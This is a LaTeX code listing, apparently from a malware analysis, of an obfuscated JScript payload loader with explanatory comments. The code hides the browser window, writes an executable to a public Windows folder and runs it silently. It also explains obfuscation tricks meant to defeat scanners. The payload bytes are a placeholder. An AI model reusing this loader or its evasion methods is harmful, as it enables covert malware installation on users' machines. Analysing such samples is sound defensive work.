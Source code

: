 \begin{lstlisting}[language=JavaScript, caption={Obfuscated payload loader.}]
// Data array used to execute commands
var _0x4fba = [
  'OpenTextFile', 'CreateTextFile', '245822eefsqR', '598829yCFgdo',
  'close', '302606ILGEZd', '124169YwNuaX', 'resizeTo', 'Close', 'Write',
  '718973kiZVEV', 'fromCharCode', 'C:/U' + 'sers/Publi' + 'c/Librarie' +'s/App' + 'Store.e' + 'xe',
  '108898gckcJk', '1hfvbvr', '1oCpDrk', '1TeNYee', '392776SHsKeZ'
] // split the path string to make automated scanning more difficult

// Pointless second argument for obfuscation
var _0x187d = function(_0x1d5195, _0x59a857) {
  _0x1d5195 = _0x1d5195 - 0x1dc;
  var _0x4fbae6 = _0x4fba[_0x1d5195];
  return _0x4fbae6;
}

var _0x556975 = _0x187d // Function alias

// self invoking function
// arg1: the command array _0x4fba
// arg2: the value 0x6d993 == 448915
// 
// Reorders the array elements until they are in the following order:
// [
//  fromCharCode, C:/Users/Public/Libraries/AppStore.exe,
//  108898gckcJk, 1hfvbvr, 1oCpDrk, 1TeNYee, 392776SHsKeZ,
//  OpenTextFile, CreateTextFile, 245822eefsqR, 598829yCFgdo,
//  close, 302606ILGEZd, 124169YwNuaX, resizeTo, Close, Write, 
//  718973kiZVEV
// ]
(function(_0x284e13, _0x5d8387) {
  var _0x113863 = _0x187d; // Function alias
  while (!![]) {
    try {
      var _0x589f0d = parseInt(_0x113863(0x1e2)) + -parseInt(_0x113863(0x1df)) 
        * parseInt(_0x113863(0x1e8)) + parseInt(_0x113863(0x1de))
        + parseInt(_0x113863(0x1e6)) + -parseInt(_0x113863(0x1ed))
        + -parseInt(_0x113863(0x1e1)) * -parseInt(_0x113863(0x1e5))
        + parseInt(_0x113863(0x1e9)) * parseInt(_0x113863(0x1e0));
      if (_0x589f0d === _0x5d8387) break;
      // places first element at the back of arr
      else _0x284e13['push'](_0x284e13['shift']()); 
    } catch (_0xecf87d) {
      // the error path ultimately does the same as the 
      // normal path if _0x589f0d != _0x5d8387 (second arg)
      // places first element at the back of arr
      _0x284e13['push'](_0x284e13['shift']()); 
    }
  }
  // Calls window.resizeTo(0, 0)
}(_0x4fba, 0x6d993), window[_0x556975(0x1ea)](0x0, 0x0)); 

try {
  var b = new ActiveXObject('Scripting.FileSystemObject'),
    d = _0x556975(0x1dd); // d = 'C:/Users/Public/Libraries/AppStore.exe'

  e = b[_0x556975(0x1e4)](d, !![]), //call Scripting.FileSystemObject.CreateTextFile(path, true)
    e[_0x556975(0x1ec)]('MZ'), // call Scripting.FileSystemObject.Write('MZ') on the created file
    e['Close'](); // close the file
  var data = [144, 3, 0, 4, 0, 65535, 0, 184], // replace with payload
      i, len;
  len = data['length'];
  var content = '';
  for (i = 0x0; i < len; i++) {
    content += String[_0x556975(0x1dc)](data[i]); // content += String.fromCharCode(data[i])
  }
  e = b[_0x556975(0x1e3)](d, 0x8, ![], -0x1), // call Scripting.FileSystemObject.OpenTextFile(path, 8, false, -1)
    e[_0x556975(0x1ec)](content), // call Scripting.FileSystemObject.Write(content) on the opened file
    e[_0x556975(0x1eb)](); // close the file
  var c = new ActiveXObject('WScript.Shell');
  c['Run'](d, 0x0); // run the payload
  

\end{lstlisting}

